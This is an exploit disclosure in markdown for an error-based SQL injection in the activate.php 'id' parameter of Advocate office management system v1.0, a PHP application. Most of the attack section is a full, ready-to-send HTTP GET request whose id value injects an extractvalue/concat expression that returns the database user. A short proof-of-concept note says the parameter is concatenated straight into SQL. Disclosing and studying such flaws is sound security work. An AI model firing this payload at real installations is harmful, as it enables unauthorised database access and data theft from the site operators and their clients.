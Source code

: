 # Advocate office management system activate.php error-based SQL Injection Vulnerability

* **Exploit Title**: Advocate office management system activate.php error-based SQL Injection Vulnerability
* **Exploit Author**: webraybtl@webray.com.cn inc
* **Vendor Homepage**: https://www.sourcecodester.com/php/17280/advocate-office-management-system-free-download.html
* **Software Link**: https://www.sourcecodester.com/download-code?nid=17280&title=Advocate+office+management+system+free+download
* **Version**: Advocate office management system v1.0
* **Tested on:**  PHP 7.4.33, OpenResty1.21.4.3-3-3-focal
* **CVE:**  Reported, waiting for CVE number.

## Description

Advocate office management system activate.php `id`​ parameter has an error-based SQL injection Vulnerability.

#### Payload used

```plaintext
GET /control/activate.php?id=1+AND+extractvalue%281%2Cconcat%28%27~%27%2C%28select+user%28%29%29%29%29 HTTP/1.1
Host: 192.168.56.128:8080
Cache-Control: no-cache
Origin: http://192.168.56.128:8080
Cookie: PHPSESSID=c44ka87dik7dcvd007quilufp2
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Referer: http://192.168.56.128:8080/control/login.php
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
Priority: u=0, i
Pragma: no-cache
Accept-Encoding: gzip, deflate
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:130.0) Gecko/20100101 Firefox/130.0
Upgrade-Insecure-Requests: 1


```

## Proof of Concept

* Construct the post request package and send it to the activate.php. Successfully saw that user information existed in the response.

​![image](assets/image-20240924102037-3mv120h.png)​

Upon reviewing the source code, it was discovered that the `id`​ parameter was directly concatenated into the SQL statement.

​![image](assets/image-20240924102215-n05i8sv.png)​

‍
